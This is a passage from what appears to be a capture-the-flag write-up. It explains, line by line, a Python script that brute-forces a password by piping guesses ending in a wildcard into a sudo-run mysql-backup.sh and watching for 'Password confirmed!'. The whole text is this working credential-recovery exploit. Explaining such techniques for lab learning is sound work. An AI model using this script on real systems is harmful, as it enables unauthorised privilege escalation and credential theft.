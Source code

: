 
Lets break this script down:

1. **Importing Libraries:**
```
pythonCopy code
import string
import subprocess
```
- **`string`** module provides a collection of string constants, like **`ascii_letters`** (concatenation of lowercase and uppercase letters) and **`digits`** (string of digits '0' to '9').
- **`subprocess`** module allows you to spawn new processes, connect to their input/output/error pipes, and obtain their return codes.

2. **Defining a Function:**
```
pythonCopy code
def check_password(p):
    command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
    result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    return "Password confirmed!" in result.stdout
```
- This function, **`check_password`**, takes a password (**`p`**) as input and runs a shell command using **`subprocess.run`**.
- The command is constructed by echoing the provided password followed by an asterisk (**``**) and then passing it to a script (**`mysql-backup.sh`**) using **`sudo`**.
- The output and errors of the subprocess are captured in the **`result`** variable.
- The function returns **`True`** if the string "Password confirmed!" is found in the standard output (**`result.stdout`**), indicating a successful password attempt.

3. **Brute Force Loop:**
```
charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
    for char in charset:
        if check_password(password + char):
            password += char
            print(password)
            break
    else:
        is_password_found = True
```
- The script defines a character set (**`charset`**) consisting of letters (both lowercase and uppercase) and digits.
- It initializes an empty **`password`** and a flag **`is_password_found`**.
- The code uses a **`while`** loop that continues until the correct password is found.
- Inside the loop, there is a **`for`** loop that iterates over each character in the character set.
- It calls the **`check_password`** function with the current password attempt (**`password + char`**).
- If the password attempt is successful, the character is appended to the password, and the loop continues with the next character.
- If none of the characters are successful, the **`else`** block of the **`for`** loop is executed, setting **`is_password_found`** to **`True`** and ending the outer **`while`** loop.
